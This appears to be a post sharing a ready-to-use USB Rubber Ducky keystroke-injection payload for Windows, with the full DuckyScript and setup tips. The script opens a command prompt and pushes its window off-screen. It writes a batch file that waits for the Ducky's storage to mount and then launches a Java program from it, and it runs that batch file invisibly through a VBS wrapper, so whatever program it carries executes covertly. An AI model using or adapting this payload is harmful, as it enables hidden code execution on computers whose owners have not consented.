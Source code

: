 The following is another payload for running applications on Twin duck firmware from off your SD card automatically. This payload waits for the ducky drive to mount, then switches to the directory containing the Java payload, then launches the payload. I don't know how useful this will be, but it is here if you need it. This only runs on Windows systems, but should run on all current Windows thanks to some code written by googleknowsbest. Change "JavaApp" to the name of your application. 
```
REM Author: overwraith
REM Name: Java_Application.txt
REM Purpose: Run a java application off the ducky drive after it mounts.  
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DEFAULT_DELAY 25
DELAY 3000
GUI r
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Change directories because System32 appears to be protected. 
STRING CD %TEMP%
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat
STRING :while1
ENTER

STRING for /f "tokens=3 delims= " %%A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%%A:)
ENTER
STRING if Exist %DUCKYdrive% (
ENTER
STRING goto :break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto :while1
ENTER
STRING :break
ENTER
REM Continue script.
STRING %DUCKYdrive%
ENTER
STRING cd Java_Application
ENTER
STRING Java JavaApp
ENTER
CONTROL z
ENTER

REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL Z
ENTER

REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs DuckyWait.bat
ENTER
STRING EXIT
ENTER
```

If you are not containing this script and the application within a folder on the ducky drive, then remove this line: 

```
...
STRING cd Java_Application
ENTER
...
```